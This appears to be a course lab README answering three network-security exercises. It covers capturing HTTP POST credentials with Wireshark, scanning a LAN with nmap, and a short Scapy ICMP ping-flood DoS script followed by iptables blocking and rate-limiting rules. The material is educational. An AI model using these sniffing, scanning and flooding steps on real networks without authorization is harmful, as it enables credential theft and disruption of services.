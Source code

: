 # MSEI 021

## Question 1: Implement the network sniffers to find out usernames and passwords by retrieving the packets from HTTP POST on any website.
Steps Using Wireshark (No Code Needed):

Open Wireshark.
Select your network interface.
Apply the filter: http.request.method == "POST".
Capture traffic, identify HTTP POST packets, and inspect their payload for credentials.

Note: HTTP POST often transmits data like usernames and passwords in plain text. Ensure ethical and authorized use.

## Question 2: Define the topology used in LAN and scan the network with details like IP, MAC Address, Host name, Username, and OS details of at least 10 machines, and generate the report.
Using nmap Command (No Code Needed):

Install nmap:

sudo apt install nmap
Scan your LAN:

sudo nmap -sn 192.168.1.0/24
(Replace 192.168.1.0/24 with your subnet.)

To get detailed information, use:

sudo nmap -A -T4 192.168.1.0/24
(This will provide details like IP, MAC Address, Hostname, OS, and open ports.)

Save the output:

sudo nmap -A -T4 192.168.1.0/24 > network_report.txt
(The results will be stored in network_report.txt.)

## Question 3: Attempt a DoS/DDoS attack on the target computer and display the list of IPs with access details. Prevent the DDoS attack using any firewall.

Part A: Attempt DoS Attack
Code for DoS Attack Using Scapy:

python

from scapy.all import *

target_ip = "192.168.1.100"  # Replace with the target IP
packet = IP(dst=target_ip)/ICMP()  # ICMP packets for ping flood

print("Starting DoS attack...")
send(packet, count=10000, inter=0.001)  # Sends 10,000 packets
print("DoS attack completed.")

Part B: Display IPs Who Attempted the Attack
Monitor logs using:

bash
sudo tail -f /var/log/syslog

Use iptables to track incoming traffic:

bash
sudo iptables -L -n -v

Part C: Prevent DDoS Using Firewall
Commands to Block IPs Using iptables:

Block specific attacking IP:

bash
sudo iptables -A INPUT -s <attacker-ip> -j DROP

Use rate limiting to mitigate attacks:

bash
sudo iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j DROP
